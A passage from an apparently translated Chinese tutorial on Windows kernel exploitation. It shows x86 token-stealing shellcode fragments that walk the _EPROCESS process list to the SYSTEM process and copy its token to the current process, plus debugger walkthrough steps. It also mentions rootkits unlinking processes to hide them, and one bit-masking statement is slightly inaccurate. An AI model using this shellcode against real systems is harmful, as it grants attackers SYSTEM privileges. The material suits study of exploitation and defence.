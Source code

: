 _LIST_ENTRY数据结构是双链表。它的头指针是“Flink”，尾部指针是“Blink”。我们可以使用“ActiveProcessLinks”双链表遍历整个系统中的进程并找到“系统”进程。_EPROCESS结构也用于rootkits，以将用户界面的进程隐藏起来。如果您已经在C中完成了算法，则与从双链表中删除节点相似。我们只需将Flink更改为下一个节点，并将Blink更改为上一个节点，从而使我们的进程远离链表。你可能会想知道这个过程是如何工作的。进程只是一个线程容器。真正的交易是与线程。

[![](https://p3.ssl.qhimg.com/t014f1036c49ba596d6.png)](https://p3.ssl.qhimg.com/t014f1036c49ba596d6.png)

shellcode中使用以下汇编代码遍历双链表，并查找进程ID为0x4。



```
SearchSystemPID:
    mov eax, [eax + 0x0B8] ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
    sub eax, 0x0B8
    cmp[eax + 0x0B4], edx ; Get nt!_EPROCESS.UniqueProcessId
    jne SearchSystemPID
```

一旦找到“系统”进程，我们将当前进程的token替换为“系统”进程的token值。“token”的偏移量为0xf8。最后我们恢复寄存器的状态。



```
mov edx, [eax + 0x0F8] ; Get SYSTEM process nt!_EPROCESS.Token
mov[ecx + 0x0F8], edx ; Replace our current token to SYSTEM
popad
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01ba06199f2de872b3.png)

我们可以在运行时使用调试器。例如，我将打开'notepad.exe'。您可以看到它作为普通用户运行。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t012a6c64387d3acab7.png)

检查指向“notepad.exe”的_EPROCESS结构的指针，它是853fed28。

[![](https://p0.ssl.qhimg.com/t013cbdf6c148d5fae5.png)](https://p0.ssl.qhimg.com/t013cbdf6c148d5fae5.png)

指向“System”的_EPROCESS结构的指针是8514a798。

[![](https://p4.ssl.qhimg.com/t013385a2a3a46b4b00.png)](https://p4.ssl.qhimg.com/t013385a2a3a46b4b00.png)

我们来检查'系统'进程的令牌的值。它是0x88e0124b。

[![](https://p1.ssl.qhimg.com/t01fec321ed7fa43ec9.png)](https://p1.ssl.qhimg.com/t01fec321ed7fa43ec9.png)

我们可以通过取消设置0x88e0124b的最后3位来计算令牌的值。我们可以通过执行按位AND和0x3来做到这一点。

```
0x88e0124b &amp;~ 3 = 0x88e01248
```

[![](https://p0.ssl.qhimg.com/t01a15e683381f399f9.png)](https://p0.ssl.qhimg.com/t01a15e683381f399f9.png)

